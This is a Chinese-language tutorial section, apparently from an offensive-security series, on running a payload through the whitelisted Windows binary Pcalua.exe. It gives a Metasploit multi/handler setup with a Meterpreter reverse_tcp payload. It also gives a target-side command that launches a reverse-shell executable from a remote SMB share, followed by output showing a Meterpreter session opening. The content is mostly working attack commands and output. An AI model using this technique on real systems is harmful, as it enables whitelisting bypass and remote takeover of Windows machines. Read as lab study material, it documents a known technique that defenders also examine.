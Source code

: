 ### 11.15 基于白名单Pcalua执行payload（十五）

**Pcalua简介：**

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

    C:\Windows\System32\pcalua.exe
    
        

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.5 Windows 7

**配置攻击机msf：**

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231536710.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**靶机执行：**

    Pcalua -m -a \\192.168.1.119\share\rev_x86_53_exe.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231653596.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.5
    [*] Meterpreter session 23 opened (192.168.1.4:53 ‐> 192.168.1.5:11349)
    at 2019‐01‐20 09:25:01 ‐0500
    meterpreter > getuid
    Server username: John‐PC\John
    meterpreter > getpid
    Current pid: 11236
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231705736.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *